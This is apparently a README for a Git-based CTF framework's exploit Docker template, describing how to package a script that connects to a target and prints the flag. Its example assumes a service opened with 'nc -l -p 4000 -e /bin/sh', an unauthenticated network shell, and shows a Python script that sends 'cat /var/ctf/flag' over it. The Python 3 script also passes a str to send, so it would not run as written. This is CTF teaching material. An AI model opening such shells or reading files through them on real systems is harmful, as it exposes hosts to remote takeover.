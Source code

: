 # Exploit Docker Template

A Dockerfile template for building an exploit in Git-based CTF. An exploit in
Git-based CTF is a program running in a Docker container.

# Usage

You can modify the [`Dockerfile`](Dockerfile) to create an exploit docker. In
the Dockerfile, you should place your exploit script at `/bin/exploit`. Your
exploit script/program (`/bin/exploit`) should take both ip and port number as
command-line arguments: you should be able to run the exploit with `/bin/exploit
[ip] [port]`. Your exploit should read the flag placed in `/var/ctf/flag` and
print it to standard output.

# Example

Below is an example that shows how you can create an exploit docker. We assume
that a simple shell service is running at port 4000: `nc -l -p 4000 -e /bin/sh`.

1. Modify the Dockerfile as follows.

    ```dockerfile
    FROM debian:latest

    # =========Install your package=========
    RUN apt-get update && apt-get install -y \
          make \
          gcc  \
          python
    # ======================================

    # ======================================
    # Build your exploit here
    # ======================================


    # ======Build and run your exploit=====
    COPY exploit /bin/
    # ======================================
    ```

2. Create a python script `./exploit` and make it executable: `chmod +x
   ./exploit`. The script should look as follows:

    #### exploit
    ```python
    #!/usr/bin/env python3

    from socket import *
    import sys

    HOST = sys.argv[1]
    PORT = int(sys.argv[2])
    BUFSIZE = 1024
    ADDR = (HOST, PORT)

    s = socket(AF_INET, SOCK_STREAM)
    try:
        s.connect(ADDR)
    except Exception as e:
        print('Cannot connect to the server.')
        sys.exit()

    s.send('cat /var/ctf/flag\n')
    flag = s.recv(BUFSIZE)
    flag = flag.rstrip()
    sys.stdout.write(flag)
    ```

3. Run the [gitctf script](../scripts): `./gitctf.py exec exploit --exploit-dir
   [DIR] --service-name SrvName --ip 127.0.0.1 --port 4000`. Assuming that the
   target service is running at localhost port 4000, you can simply run:
   ``./gitctf.py exec exploit --exploit-dir [DIR] --service-name SrvName``.
